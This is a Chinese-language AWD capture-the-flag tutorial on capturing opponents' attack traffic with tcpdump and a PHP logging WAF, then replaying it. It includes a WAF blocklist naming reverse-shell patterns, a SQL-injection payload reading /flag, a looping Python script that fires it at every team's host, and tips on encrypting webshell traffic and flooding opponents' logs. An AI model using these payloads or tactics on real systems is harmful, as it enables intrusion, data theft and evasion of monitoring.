

# AWD全流量抓包与分析：通防WAF部署、攻击报文捕获与回首掏反打

---

## 0. 基础前置知识扫盲：什么是“回首掏”？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


在 AWD 攻防赛中，流传着一句经典名言：
> **“高端的猎手，往往以猎物的形态出现；你辛苦审计挖出的 0-Day，在发包的一瞬间就已经属于全场所有人了。”**

### 1. 通俗生活类比：空手接白刃与“回首掏”
- **攻击者的痛点**：队伍 A 耗费了 2 个小时，通读了 5000 行 PHP 源码，终于发现了一个极度隐蔽的反序列化 RCE 漏洞。队伍 A 激动地向全场靶机发送了精心构造的 Payload 拿下了 Flag。
- **防守方的反制（回首掏）**：
  队伍 B 虽然代码审计能力较弱，但在自己的靶机上提前布设了**全流量捕获雷达（通防 WAF / tcpdump）**。
  当队伍 A 的攻击包打进队伍 B 的服务器那一瞬间：
  - 队伍 B 的雷达不仅成功捕获并拦截了这次攻击，还**完整录制了队伍 A 发送的每一个请求参数与 Payload 细节**！
  - 队伍 B 迅速提取出这个 Payload，只修改了目标 IP，**直接用队伍 A 的武器把全场剩下的其他队伍全部打穿！**
  这种“以彼之道，还施彼身”的战术，在 AWD 中被称为**“回首掏（流量反打）”**。



---

## 1. 系统底层流量镜像抓取：tcpdump 核心实操

无论 Web 容器怎么重启或崩溃，**Linux 网络协议栈（Netfilter）** 的流量永远是最真实的。
使用系统级命令 `tcpdump` 可以在网络驱动层全量倾倒所有数据包，避免遗漏非 HTTP 流量或绕过 PHP 的攻击。

### 1.1 常用抓包命令与参数逐项剖析

```bash
# 1. 后台静默抓取所有接口在 80 和 8080 端口上的全量数据包，并写入 pcap 文件
nohup tcpdump -i any -nn -s 0 -w /tmp/traffic.pcap '(port 80 or port 8080)' > /dev/null 2>&1 &

# 2. 实时终端滚动监控：仅打印包含 HTTP 请求与 Flag 关键字的明文报文
tcpdump -i any -nn -A -s 0 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12:2]&0xf0)>>2)) != 0)' | grep -E "(GET|POST|flag\{)"
```

#### tcpdump 核心参数详解表：
| 参数 | 完整含义 | 作用与防踩坑要点 |
| :--- | :--- | :--- |
| `-i any` | Interface | 监听所有网卡接口（包括本地回环 `lo` 和所有物理/虚拟网卡）。 |
| `-nn` | No DNS/Port Resolve | **禁止将 IP 逆向解析为域名，禁止将端口解析为服务名**。不加此参数会引发大量 DNS 查询开销并严重卡顿！ |
| `-s 0` | Snaplen | 将抓包抓取长度设为最大（完整抓取全部数据包体，不截断）。 |
| `-w <file>`| Write to file | 将原始数据包写入二进制 `.pcap` 文件，后续可用 Wireshark 打开深入分析。 |
| `-A` | ASCII Print | 将数据包以 ASCII 文本格式直接打印在终端屏幕上（非常适合排查明文 HTTP）。 |

---

## 2. 应用层轻量级“通防 WAF”部署指南

虽然底层抓包全面，但分析 `.pcap` 文件需要拉回本地解析，时效性稍逊。
在 AWD 比赛中，最直接高效的方案是部署一个由我们自己编写的**轻量级应用层 WAF（`waf.php`）**。

### 2.1 全局无感知自动挂载黑魔法：`auto_prepend_file`

如何在不改动成百上千个业务源码文件的前提下，让网站每一个 PHP 文件在被执行时，自动先执行我们的 WAF？
修改 `php.ini` 配置文件：
```ini
; 在 /etc/php/7.x/fpm/php.ini 或 /etc/php.ini 中追加配置
auto_prepend_file = /tmp/waf.php
```
配置完成后重启 PHP-FPM（`service php7.4-fpm restart`），所有访问任何页面的请求都会无条件经过 `waf.php` 审计！

> [!TIP] **如果没有权限修改 php.ini 怎么办？（批量写入脚本）**
> 可以写一个 Python 小脚本，递归扫描 `/var/www/html/` 下的所有 `.php` 文件，在首行 `<?php` 下方统一自动追加一行 `require_once('/tmp/waf.php');`。

---

### 2.2 企业级 AWD 通用防御与日志 WAF 完整源码（`waf.php`）

以下提供一套工业级轻量 `waf.php`，兼具**全字段日志记录、智能恶意特征检测、虚假返回混淆**功能，且**绝不影响裁判机的 SLA Check**：

```php
<?php
/**
 * AWD 专用通防 WAF + 攻击日志追踪探针
 */

// 1. 设置日志保存路径 (确保 www-data 用户有写权限)
define('LOG_FILE', '/tmp/awd_traffic.log');

// 2. 裁判机白名单 IP 列表 (防止误杀裁判机导致 SLA 扣分)
$whitelist_ips = array('127.0.0.1', '192.168.10.254'); // 比赛开始后根据裁判机网段修改
$client_ip = $_SERVER['REMOTE_ADDR'];

// 3. 收集当前请求全部上下文信息
$request_data = array(
    'time'       => date('Y-m-d H:i:s'),
    'ip'         => $client_ip,
    'method'     => $_SERVER['REQUEST_METHOD'],
    'uri'        => $_SERVER['REQUEST_URI'],
    'headers'    => getallheaders(),
    'get'        => $_GET,
    'post'       => $_POST,
    'raw_body'   => file_get_contents('php://input'),
    'cookie'     => $_COOKIE
);

// 4. 定义高危攻击正则特征黑名单
$danger_patterns = array(
    '/(\'|\")\s*(or|and)\s*(\d+=\d+|\'1\'=\'1\')/i',  // 经典 SQL 注入
    '/(union\s+select|information_schema|into\s+outfile)/i', // 联合查询与写文件
    '/(system|exec|passthru|shell_exec|assert|eval)\s*\(/i', // 命令执行与代码注入
    '/(flag|cat\s+\/flag|tac\s+\/flag|base64\s+\/flag)/i',   // 偷取 Flag 行为
    '/(bash\s+-i|\/dev\/tcp\/|nc\s+-e)/i',                  // 反弹 Shell
    '/(php:\/\/filter|phar:\/\/|data:\/\/)/i'               // 伪协议利用
);

$is_attack = false;
$matched_pattern = '';

// 递归检测所有输入参数
$all_input = json_encode($request_data);
foreach ($danger_patterns as $pattern) {
    if (preg_match($pattern, $all_input)) {
        $is_attack = true;
        $matched_pattern = $pattern;
        break;
    }
}

// 5. 命中攻击时的处理策略
if ($is_attack && !in_array($client_ip, $whitelist_ips)) {
    // 写入专门的攻击告警日志，方便队员一眼挑出 Payload
    $log_entry = sprintf(
        "[%s][ATTACK_BLOCKED][Rule:%s] IP:%s %s %s | Post:%s | RawBody:%s\n",
        $request_data['time'],
        $matched_pattern,
        $client_ip,
        $request_data['method'],
        $request_data['uri'],
        json_encode($request_data['post']),
        $request_data['raw_body']
    );
    file_put_contents(LOG_FILE, $log_entry, FILE_APPEND | LOCK_EX);

    // 伪装响应：返回正常的 200 页面或空页面，迷惑攻击者使其以为 Payload 执行失败
    header('HTTP/1.1 200 OK');
    echo "<!-- system error: operation failed -->";
    exit();
} else {
    // 正常请求仅低频精简记录
    $log_entry = sprintf("[%s][NORMAL] IP:%s %s %s\n", $request_data['time'], $client_ip, $request_data['method'], $request_data['uri']);
    file_put_contents(LOG_FILE, $log_entry, FILE_APPEND | LOCK_EX);
}
?>
```

---

## 3. “回首掏”实战流水线：从被打日志到一键批量反杀

### 3.1 攻击报文分析实战
当我们的靶机受到攻击时，在终端执行：
```bash
tail -f /tmp/awd_traffic.log | grep "ATTACK_BLOCKED"
```
**终端立即跳出一行日志**：
```text
[2026-10-12 17:50:23][ATTACK_BLOCKED][Rule:/(flag|cat\s+\/flag)/i] IP:192.168.10.15 POST /api/vuln_article.php | Post:{"id":"1' UNION SELECT 1,2,load_file('/flag')#"} | RawBody:id=1'+UNION+SELECT+1,2,load_file('/flag')%23
```

#### 关键线索提取：
1. **攻击源是谁**：`192.168.10.15`（队伍 15 打了我们）；
2. **漏洞文件在哪**：`/api/vuln_article.php`；
3. **参数与漏洞类型**：POST 参数 `id` 存在 SQL 注入，利用 `load_file('/flag')` 读取 Flag！

---

### 3.2 武器化转换：编写 Python 一键自动化反打脚本

既然我们拿到了对手成熟的攻击利用链，立即将其填入我们的批量打靶模板，向全场除了我们自己之外的所有 IP 发起攻击：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
AWD 自动化'回首掏'批量反打脚本
"""
import requests
import re
import time

# 比赛平台与靶机配置
TARGET_SUBNET = "192.168.10.{}"  # 靶机网段模板
TOTAL_TEAMS = 30                 # 全场总队伍数
MY_TEAM_ID = 8                   # 我们队伍的编号 (避免打自己)
FLAG_SUBMIT_URL = "http://192.168.10.254/api/submit_flag" # 裁判机 Flag 提交接口
TOKEN = "my_team_secret_token_2026"

# 刚才从流量日志中逆向提取出的 Payload 模板
def exploit(target_ip):
    url = f"http://{target_ip}/api/vuln_article.php"
    payload = {
        "id": "1' UNION SELECT 1,2,load_file('/flag')#"
    }
    try:
        res = requests.post(url, data=payload, timeout=3)
        # 正则匹配形如 flag{...} 的 Flag 字符串
        flag_match = re.search(r"flag\{[a-zA-Z0-9_\-]{32,40}\}", res.text)
        if flag_match:
            flag = flag_match.group(0)
            print(f"[+] 成功从 {target_ip} 夺取 Flag: {flag}")
            submit_flag(flag)
        else:
            print(f"[-] {target_ip} 未提取到 Flag 或已被修补")
    except Exception as e:
        print(f"[!] 访问 {target_ip} 异常: {str(e)}")

def submit_flag(flag):
    """自动向平台提交 Flag"""
    data = {"token": TOKEN, "flag": flag}
    try:
        resp = requests.post(FLAG_SUBMIT_URL, json=data, timeout=2)
        print(f"    --> Flag 提交结果: {resp.text}")
    except Exception as e:
        print(f"    --> Flag 提交失败: {str(e)}")

def run_round():
    print(f"\n[*] ====== 启动新一轮自动化批量打击 ======")
    for team_id in range(1, TOTAL_TEAMS + 1):
        if team_id == MY_TEAM_ID:
            continue
        ip = TARGET_SUBNET.format(team_id)
        exploit(ip)

if __name__ == "__main__":
    # 模拟每个 Round (例如每隔 120 秒) 自动循环攻击一轮
    while True:
        run_round()
        print("[*] 休息 120 秒进入下一轮...")
        time.sleep(120)
```

---

## 4. 攻防博弈防反打：如何防止别人偷我们的流量？

既然我们懂“回首掏”，其他顶尖强队同样懂。在发起攻击时，**如何防止我们的 Payload 被别人捕获并反打？**

### 1. Payload 对称加密传输
如果通过 WebShell（一句话后门）进行打靶，绝不要以明文发送 `system('cat /flag')`。
使用 AES-128、RC4 或动态异或密钥加密通信，使得对方抓包看到的只是一串随机乱码，无法直接复用。

### 2. 注入虚假干扰流量（流量混淆战术）
进攻手在打出真 Payload 的同时，编写多线程脚本向目标机器发送**成千上万个伪造的垃圾扫描请求**（例如夹带假的 Base64 字符串、故意伪造假的 `flag{this_is_fake_payload}` 假包）。
让对手的 WAF 日志文件在一秒钟内膨胀至数百兆，淹没其分析人员的视野！

### 3. 一击必杀与即时修补
当审计手在本地确认了 0-Day 漏洞后：
1. **先修补自己的靶机**（确保自己免疫）；
2. **随后全场批量打出**，夺取最高分。这样即便别人看到你的 Payload 想反打，也绝不可能反掏到我们身上！
